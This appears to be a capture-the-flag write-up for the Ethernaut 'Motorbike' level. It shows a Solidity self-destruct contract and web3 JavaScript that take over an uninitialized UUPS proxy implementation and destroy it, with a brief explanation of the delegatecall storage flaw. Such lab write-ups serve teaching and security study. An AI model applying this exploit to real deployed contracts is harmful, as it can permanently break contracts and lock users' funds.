 ```javascript
pragma solidity ^0.6.0;

contract MotorBikeAttack {
    function destroy() public {
        selfdestruct(tx.origin);
    }
}

```

Deploy the above contract to get `destroy_address`.

```javascript
engine_addresss_with_padding = await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc") // that's the proxy location defined in the standard.

engine_address = engine_addresss_with_padding.slice(26, 66); // The last 20 bytes (it is left zero padded)

let self_destruct_contract_address = destroy_address

sendTransaction({
	from: player, 
	to: engine_address, 
	data: web3.eth.abi.encodeFunctionCall({
	    name: 'initialize',
	    type: 'function',
	    inputs: []
	}, [])
});

sendTransaction({
	from: player, 
	to: engine_address, 
	data: web3.eth.abi.encodeFunctionCall({
	    name: 'upgradeToAndCall',
	    type: 'function',
	    inputs: [{
	        type: 'address',
	        name: 'newImplementation'
	    },{
	        type: 'bytes',
	        name: 'data'
	    }]
	}, 
	[
		self_destruct_contract_address, 
	   	web3.eth.abi.encodeFunctionCall({
    		name: 'destroy',
		    type: 'function',
		    inputs: []
		}, [])
	])
});
```

This works because `initialize` was called using delegatecall, so it was actually using the proxy's storage, which means the Engine is not properly initialized. So, we can exploit it by initializing it again and setting our address as the upgrader, then just upgrade the underlying implementation. 

